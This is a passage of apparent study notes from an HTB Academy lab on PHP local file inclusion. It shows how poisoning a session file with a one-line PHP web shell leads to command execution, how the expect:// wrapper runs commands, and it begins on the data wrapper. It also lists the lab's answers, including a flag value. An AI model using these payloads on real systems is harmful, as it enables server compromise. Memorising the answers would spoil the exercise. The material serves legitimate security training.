 This should "poison" the session file and add session_poisoning to it. Let's include the session file once again to look at the contents.

`http://example.com/index.php?language=/var/lib/php/sessions/sess_{cookie here}`

This time the session file contains session_poisoning instead of `es.php`, which confirms our ability to poison the session file. Next, let's write a PHP web shell to it using 
the following URL:

`http://example.com/index.php?language=<?php system($_GET['cmd']); ?>`

We can now include the session file and use the cmd parameter to execute operating system commands.

`http://example.com/index.php?language=/var/lib/php/sessions/sess_{cookie here}?cmd={any command here}`

**Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten by ``/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`` 
during inclusion. Also, the session ID used in the examples will differ from the one you receive from the web application, and you must change it to match yours when following 
along with the examples**.


### HTB Academy Questions:

1. Using the LFI to RCE vulnerability run the command 'cat /etc/issue'. Submit the OS version as your answer (i.e. Ubuntu 14.04.2 LTS)
A. Ubuntu 18.04.4 LTS

2. Submit the contents of the flag.txt file located in the /exercise directory.
A. 2ed328e2598271ad3d2831aa4a0c4bab

Other PHP Wrappers
==================

PHP provides some additional wrappers which can be leveraged to gain command execution.

Expect Wrapper
==============

The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL 
will return the output of the id command.


`http://example.com/index.php?language=expect://id`

Data Wrapper
============

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration. 
This can be found in the file /etc/php/X.Y/apache2/php.ini for Apache and in /etc/php/X.Y/fpm/php.ini for php-fpm used by Nginx, where X.Y is your install PHP version.

First, base64 encode a PHP web shell.

Then include it using the data wrapper as shown below.

